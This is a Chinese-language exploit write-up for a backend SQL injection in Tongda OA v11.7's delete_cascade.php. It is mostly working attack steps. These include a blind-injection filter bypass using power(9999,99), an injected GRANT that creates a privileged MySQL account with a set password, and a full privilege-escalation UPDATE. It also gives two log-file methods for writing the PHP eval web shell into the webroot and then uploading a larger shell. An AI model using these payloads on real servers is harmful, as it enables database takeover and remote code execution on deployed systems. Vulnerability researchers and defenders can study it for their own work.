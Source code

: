 # 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

```
通达OA v11.7
```

## 环境搭建

[环境地址](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

## 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中

![image-20220209110843192](./images/202202091108270.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php** 代码

![image-20220209110858090](./images/202202091108141.png)

使用盲注对SQL注入进行测试

![image-20220209110914705](./images/202202091109818.png)

触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:

![image-20220209110944424](./images/202202091109512.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```

![image-20220209111011701](./images/202202091110796.png)



![image-20220209111026602](./images/202202091110677.png)

添加SQL数据库用户

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

访问 **http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*

进入 **Myoa/mysql5/bin** 目录 执行 **mysql -upeiqi -p** 输入密码查询所有用户

![image-20220209111049110](./images/202202091110154.png)

发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```

![image-20220209111109474](./images/202202091111720.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限

![image-20220209111122226](./images/202202091111343.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell

```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```

上传大马

![image-20220209111135417](./images/202202091111491.png)

## 参考文章

[通达OA v11.7后台SQL注入到RCE[0day\]](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)